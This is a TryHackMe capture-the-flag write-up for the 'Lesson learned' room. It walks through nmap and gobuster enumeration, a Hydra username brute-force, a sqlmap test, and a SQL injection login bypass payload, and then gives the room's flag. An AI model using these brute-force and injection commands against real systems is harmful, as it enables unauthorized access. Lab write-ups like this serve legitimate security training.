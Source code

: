 # Room: Lesson learned

## General Info
- **Room link:** [Lesson learned](https://tryhackme.com/room/lessonlearned)


## Description

This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.
Treat this box as if it were a real target and not a CTF.
Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

## Provided Files / Links
- [x] Target Machine IP (10.10.150.35)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.150.35`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
```

- Directory Enumeration

`gobuster dir -u http://10.10.150.35 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1223]
/.htaccess            (Status: 403) [Size: 277]
/style.css            (Status: 200) [Size: 342]
/.                    (Status: 200) [Size: 1223]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
```

`gobuster dir -u http://10.10.150.35 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/manual               (Status: 301) [Size: 313] [--> http://10.10.150.35/manual/]
/server-status        (Status: 403) [Size: 277]
```

There is nothing relevant in the differents files and directories.

## Usernames bruteforce

Given there is a specific verbose error message when submitting a username and password, I will be using Hydra to find valid usernames:

`hydra -L /usr/share/wordlists/SecLists/Usernames/names.txt -p password 10.10.150.35 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password"  -V -o found_users.txt`

After finding a couple of users, I stopped Hydra.

I used sqlmap to test for SQLi in the login page (with the username `karen`):

`sqlmap -u "http://10.10.173.94/" --data="username=karen&password=" --batch --risk=1 --level=2 --random-agent --current-user`

sqlmap found that the username seems to be injectable:

```
[09:07:31] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[09:07:32] [INFO] POST parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Invalid password.")
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

Knowing that, I tried SQLi with the following payload in the username field:

`karen' AND '1'='1' -- `

And I get the flag **THM{aab02c6b76bb752456a54c80c2d6fb1e}**.

